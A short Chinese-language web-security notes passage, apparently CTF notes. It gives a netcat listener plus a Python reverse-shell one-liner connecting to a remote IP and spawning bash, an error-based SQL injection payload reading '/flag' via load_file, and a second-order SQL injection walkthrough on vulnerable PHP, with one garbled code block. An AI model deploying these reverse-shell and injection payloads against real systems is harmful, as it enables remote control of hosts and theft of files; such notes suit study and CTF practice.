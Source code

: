 主要反弹shell的代码

```cobol
//kali使用nc进行对本机的4444端口进行监听：
nc -lvvp 4444
//目标主机执行下面python命令：
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.48.130",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'
```

 [NATAPP -](https://natapp.cn/login) 

这里可以免费获取

没有回显的rce就可以使用这个

#### 报错注入读取文件

通过 load_file("文件") 来读取

```cobol
updatexml(1,concat(0x7e,(select load_file('/flag'))),3)
```

#### 二次注入

```php
    $address = addslashes($_POST["address"]);
```

发现没有进行过滤

```php
    $pattern = '/select|insert|update|delete|and|or|join|like|regexp|where|union|into|load_file|outfile/i';
    $user_name = $_POST["user_name"];
    $address = addslashes($_POST["address"]);
    $phone = $_POST["phone"];
```

并且会从数据库进行读取

```php
 $row = $fetch->fetch_assoc();
        $sql = "update `user` set `address`='".$address."', `old_address`='".$row['address']."' where `user_id`=".$row['user_id'];
        $result = $db->query($sql);
```

这里的old_address 那么我们输入报错语句 ' updatexml() 就会一样的输出 因为只是作为转义存入了

所以会原封不动的输出

```perl
 $row = $fetch->fetch_assoc();
        $sql = "update `user` set `address`='".$address."', `old_address`='"' updatexml()#"' where `user_id`=".$row['user_id'];
        $result = $db->query($sql);

```
